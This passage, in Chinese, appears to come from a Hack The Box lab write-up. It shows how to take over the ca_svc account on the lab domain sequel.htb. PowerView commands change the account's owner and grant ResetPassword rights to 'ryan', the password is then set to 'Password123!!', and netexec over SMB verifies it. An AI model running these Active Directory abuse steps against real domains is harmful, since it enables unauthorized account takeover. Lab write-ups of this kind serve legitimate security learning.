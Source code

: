 **使用PowerView修改ca_sv的密码（https://github.com/PowerShellMafia/PowerSploit）**

**将PowerView上传到目标机器，并导入**

```
Import-Module .\PowerView.ps1
```

**将 `ca_svc` 的所有者修改为名为 `ryan` 的用户或组**

```
Set-DomainObjectOwner -Identity "ca_svc"  -OwnerIdentity "ryan"
```

```
执行此命令需要对 `ca_svc` 对象拥有 `WriteOwner` 权限（或通过其他方式获得的权限，如管理员权限）。修改后，`ryan` 将成为 `ca_svc` 对象的所有者，默认拥有对该对象的 `TakeOwnership` 权限，可能间接获得更多控制能力。
```

**将给ca_svc用户重置密码的权限赋予给ryan**

```
Add-DomainObjectAcl -TargetIdentity "ca_svc" -Rights ResetPassword -PrincipalIdentity "ryan"
```

```
执行后，`ryan` 将获得对 `ca_svc` 账户的密码重置权限，可直接修改 `ca_svc` 的密码（无需知道原密码），使用该命令需具备相应的权限（如对 `ca_svc` 对象的 `WriteDacl` 权限）
```

**创建一个安全字符串（SecureString）类型的凭据对象：**

```
$cred = ConvertTo-SecureString "Password123!!" -AsPlainText -Force
```

```
ConvertTo-SecureString：是 PowerShell 的内置 cmdlet，用于将普通文本字符串转换为加密的安全字符串（SecureString），这种类型的字符串在内存中以加密形式存储，避免明文暴露。

"Password123!!"：是需要转换的原始明文密码。

-AsPlainText：指定输入的是明文文本（因为默认情况下该 cmdlet 要求输入已加密的字符串）。
-Force：强制允许将明文转换为安全字符串（由于明文处理存在安全风险，此参数用于确认操作）。

$cred = ...：将转换后的安全字符串赋值给变量 $cred，后续可用于创建 PSCredential 对象（完整的凭据包含用户名和安全字符串密码），常用于需要身份验证的操作（如远程连接、访问受保护资源等）。
```

**修改密码**

```
Set-DomainUserPassword -Identity "ca_svc" -AccountPassword $cred
```

**验证密码是否修改成功**

```
netexec smb sequel.htb -u ca_svc -p 'Password123!!'
```

![Pasted image 20250724171738](E:\资料\HTB靶场解析\HTB-wp\Pasted image 20250724171738.png)
